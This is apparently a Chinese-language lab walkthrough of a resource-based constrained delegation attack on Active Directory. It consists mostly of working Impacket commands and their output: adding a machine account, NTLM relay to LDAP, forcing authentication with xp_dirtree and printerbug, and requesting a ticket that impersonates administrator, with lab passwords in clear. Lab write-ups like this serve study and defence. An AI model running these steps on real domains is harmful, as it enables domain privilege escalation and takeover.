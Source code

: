 [![img](imgs/实战-基于资源的约束委派攻击/20200322122903-a93703b0-6bf5-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200322122903-a93703b0-6bf5-1.png)
成功达到了域权限维持的效果
下面展示Rubeus和impacket套件两种方法的利用的过程：
[![img](imgs/实战-基于资源的约束委派攻击/20200322170851-bf5fe892-6c1c-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20200322170851-bf5fe892-6c1c-1.gif)

## 参考

https://xz.aliyun.com/t/7454#toc-3
## 利用场景
### 中继 + 委派

+ SYSTEM、iis apppool\defaultapppool、network service  三个权限可以中继(system权限)

| 配置 | 说明 | 机器名 |
| ---- | ---- | ---- |
| 域控 | 192.168.43.250 | ad.shigophilo.com |
| mssql | 192.168.43.163 | fuck.shigophilo.com |
| 攻击机kali | 192.168.43.131 | kali |
| 域用户 | zhaoliu | 密码:M... |
#### 攻击过程
+ 添加一个机器账户(SPN)(kali)
```
addcomputer.py -dc-ip 192.168.43.250 -computer-name zhaoliuPC  shigophilo/zhaoliu:Mujizhe1984!
...
//zhaoliuPC$:Em3qYP9xCpnKYEBoB5vM0ft7yj6htkSE
[*] Successfully added machine account zhaoliuPC$ with password Em3qYP9xCpnKYEBoB5vM0ft7yj6htkSE
```
+ 开启中继
```
//把连接中继机器的机器(mssql发送的smb请求是使用机器认证的)委派给zhaoliuPC\$
ntlmrelayx.py -t ldap://192.168.43.250 --delegate-access --escalate-user zhaoliuPC\$ -smb2support --remove-mic
```
+ mssql发起smb请求(mssql)
```
//无论是用sa登录还是windows认证都可以
exec master.dbo.xp_dirtree '\\192.168.43.131\t'
```
+ Printerbug发起smb请求
```
python3 printerbug.py shigophilo.com/zhaoliu:M.....@192.168.43.163 192.168.43.131
```

+ 中继收到请求,配置基于资源的约束委派
```
[*] SMBD-Thread-4: Connection from shigophilo/FUCK$@192.168.43.163 controlled, attacking target ldap://192.168.43.250
[*] Authenticating against ldap://192.168.43.250 as shigophilo/FUCK$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Delegation rights modified succesfully!
[*] zhaoliuPC$ can now impersonate users on FUCK$ via S4U2Proxy
```
+ 请求ST(kali)
```
//使用了配置委派的SPN账户(zhaoliuPC$)请求票据
getST.py -spn cifs/fuck.shigophilo.com -impersonate administrator -dc-ip 192.168.43.250 shigophilo.com/zhaoliuPC$:Em3qYP9xCpnKYEBoB5vM0ft7yj6htkSE

[*] Getting TGT for user
[*] Impersonating administrator
```